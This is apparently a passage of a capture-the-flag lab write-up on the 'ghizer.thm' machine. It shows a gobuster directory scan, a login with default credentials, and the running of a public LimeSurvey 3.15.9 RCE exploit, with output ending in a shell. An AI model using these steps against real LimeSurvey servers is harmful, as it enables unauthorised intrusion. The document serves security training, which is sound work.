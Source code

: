## # GOBUSTER
To avoid wasting time we started fuzzing directories.

```bash
❯  gobuster dir -u http://ghizer.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 50 -x php,html,txt -o gobuster.log
/docs                 (Status: 301) [Size: 307] [--> http://ghizer.thm/docs/]
/index.php            (Status: 200) [Size: 40931]                            
/themes               (Status: 301) [Size: 309] [--> http://ghizer.thm/themes/]
/assets               (Status: 301) [Size: 309] [--> http://ghizer.thm/assets/]
/admin                (Status: 301) [Size: 308] [--> http://ghizer.thm/admin/] 
/upload               (Status: 301) [Size: 309] [--> http://ghizer.thm/upload/]
/tests                (Status: 301) [Size: 308] [--> http://ghizer.thm/tests/] 
/plugins              (Status: 301) [Size: 310] [--> http://ghizer.thm/plugins/]
/application          (Status: 301) [Size: 314] [--> http://ghizer.thm/application/]
/tmp                  (Status: 301) [Size: 306] [--> http://ghizer.thm/tmp/]        
/framework            (Status: 301) [Size: 312] [--> http://ghizer.thm/framework/]  
/locale               (Status: 301) [Size: 309] [--> http://ghizer.thm/locale/]     
/installer            (Status: 301) [Size: 312] [--> http://ghizer.thm/installer/]  
/third_party          (Status: 301) [Size: 314] [--> http://ghizer.thm/third_party/]
```
When entering the directory **/admin** we find a login of that service when we do a search in **Google** about that service we find that it has default credentials, then we use them to initiate session.

## # LimeSurvey - RCE

Upon entering the Administration Panel we see a list of services that we can perform together with the version of the web application service.
![version](https://imgur.com/xCAhPTt.png)

Doing a google search for **Lime Survey version 3.15.9 exploit** we found a python exploit, let's use the exploit with the default credentials.

[Exploit LImeSurvey RCE](https://www.exploit-db.com/exploits/46634)

```shell
❯ python2 exploit.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 353418
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/353418/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ ls
CONTRIBUTING.md
README.md
admin
application
assets
composer.json
docs
framework
index.php
installer
locale
manifest.yml
phpci.yml
phpunit.xml
plugins
shell.php
```